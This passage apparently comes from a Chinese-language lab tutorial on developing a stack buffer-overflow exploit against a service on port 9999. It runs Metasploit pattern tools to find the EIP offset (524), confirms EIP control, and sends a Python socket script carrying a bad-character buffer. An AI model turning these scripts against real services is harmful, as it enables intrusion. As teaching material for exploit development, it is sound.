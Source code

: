```
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/4.PNG)

## d2.py 找到EIP
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4000`运行该命令，生成4000字节字符串。

修改demo.py的这一行
```
buffer = "生成的字符串”
```
运行demo.py，得到报错的地址35724134
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/5.PNG)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4000 -q 35724134
[*] Exact match at offset 524
```
## d3.py 确认EIP
修改demo.py的这一行
```
buffer = "A"*524 + "B"*4
```
运行demo.py，确保EIP地址被B字符串覆盖。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/6.PNG)

## d4.py 检查坏字符
```
#!/usr/bin/python
import socket

host = "192.168.67.1"

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

buffer = "A"*524 + badchars

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 9999))
data=s.recv(1024)
```
